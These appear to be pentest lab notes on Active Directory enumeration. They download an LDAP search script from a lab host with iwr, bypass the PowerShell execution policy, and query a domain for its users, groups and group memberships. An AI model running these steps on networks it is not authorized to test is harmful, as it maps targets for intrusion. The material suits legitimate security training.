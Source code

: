 
```powershell
iwr -uri http://192.168.100.200/OffsecLabs/ldapsearch.ps1 -Outfile C:/ProgramData/ldapsearch.ps1
```

```powershell
powershell -ep bypass
```

```powershell
Import-Module C:\ProgramData\ldapsearch.ps1
```

Enumerate all users in domain
```powershell
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
```

List groups in all AD objects including _Domain Local_ groups (not just global groups)
```powershell
LDAPSearch -LDAPQuery "(objectclass=group)"
```

Enumerate every group available in the domain and display the user members
```powershell
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {$group.properties | select {$_.cn}, {$_.member}}
```

Saving a group object to variable
```powershell
$gp = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Service Personnel))"
```
Saving a user object to variable
```powershell
$user = LDAPSearch -LDAPQuery "(&(objectCategory=user)(cn=michelle*))"
```

Using variable to derive properties
```powershell
$gp.properties.member
```

```powershell
$jen.properties.memberof
```